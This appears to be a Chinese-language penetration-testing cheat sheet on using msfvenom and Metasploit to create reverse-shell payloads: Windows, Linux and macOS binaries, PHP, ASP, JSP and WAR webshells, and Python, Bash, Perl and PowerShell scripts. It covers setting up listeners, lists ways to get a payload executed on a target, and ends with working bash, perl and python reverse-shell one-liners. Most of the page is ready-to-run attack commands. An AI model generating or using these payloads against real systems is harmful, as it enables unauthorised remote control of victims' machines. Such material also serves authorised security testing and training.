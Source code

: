 # 生成msf常用payload列表

在kali下可以使用如下命令列出MSFVenom可以生成的payload列表：
```
msfvenom -l
```
# 生成二进制文件(.exe)

关于二进制文件，主要介绍适用于`Windows、linux、mac`操作系统的payload生成与利用。

## Windows
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

## Linux

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

## Mac

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```
## 如何利用

如针对Windows生产一个exe的payload：
```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.100.82 lport=6565 -f exe -o /re.exe
```
> 复制re.exe到Windows机器，然后kali下开启msf使用如下命令监听4444端口：


### msf调用这个框架
```
 use exploit/multi/handler
```
### 绑定payload
```
set payload windows/x64/meterpreter_reverse_tcp 
```
### 填写链接参数
``` 
set lhost 192.168.100.82  //设置接受payload的地址，我们这里设置MSF的地址
```
```
set lport 4444         // 设置接受的端口，这个自己自定义，只要不与其它端口冲突就可以
```
### 填写链接端口
```
 set ExitOnSession false     \\ 这样以后就不会自动结束掉job了
```
```
exploit -j -z  \\GKDGKD
```
想尽办法在Windows端运行即可

![](img/1.png)

在这里既然使用到了`在Windows下执行应用程序`，我们就大概盘点一下在Windows执行应用程序的几种方式：
```
双击运行
cmd下运行exe
利用Powershell远程下载执行
利用at或schtasks设置计划任务执行
利用wmic远程命令执行
其他的方式请各位补充
```
# 生成webshell脚本

在做web渗透的时候，经常会用到webshell，我们经常用的一句话用菜刀连接，如何使用MSFVenom生成`一个可以用msf操作的webshell呢？`

### PHP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
```
### 或者
```
cat shell.php | pbcopy && echo '<?php ' | tr -d 'n' > shell.php && pbpaste >> shell.php
```
### ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

### 如何利用
下面以`php`为例做一下测试，使用以下命令生成一个webshell：
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.100.82 LPORT=4444 -f raw > shell.php
```

### 在kali上使用msf执行下面的命令，监听端口4444：

```
use exploit/multi/handler
```
```

set PAYLOAD php/meterpreter_reverse_tcp  
```
```
set LHOST 192.168.88.128
```
```
set LPORT 4444
```
```
set ExitOnSession false
```
```
exploit -j -z
```
> 可见这段代码和上文中唯一不同就是设置了不同的payload(这不废话吗)

### 如何实现

>将shell.php放在web目录下，使用浏览器访问，或者使用以下命令执行：
```
php shell.php
```
![](img/2.png)
可以当成一个检测payload如果上线就提醒下线就当场去世(Died)

# 脚本shell

关于使用脚本反弹shell的方式，主要以`python、bash、perl`为例。

## Python

```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

## Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

## Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

## Powershell

```
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f psh > shell.ps1
```
然后使用`ps运行它才会执行反射payload`，执行代码：
```
powershell.exe -ExecutionPolicy Bypass -File shell.ps1
```
## 如何使用

下面就以Python为例做一下测试，使用以下命令生成一个脚本：
```
msfvenom -p cmd/unix/reverse_python LHOST=192.168.88.128 LPORT=4444 -f raw > shell.py
```
在kali上使用msf执行下面的命令，监听端口4444：

msfconsole
```
use exploit/multi/handler

set PAYLOAD cmd/unix/reverse_python

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z
```

所以总结一下 ，payload的制作只要更改其中的payload的目录即可，设置基本都一样只是更换payload而已。

# 其他的各种各样的姿势的反弹shell：

```bash
bash:bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
```perl
perl: perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
```python
python: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
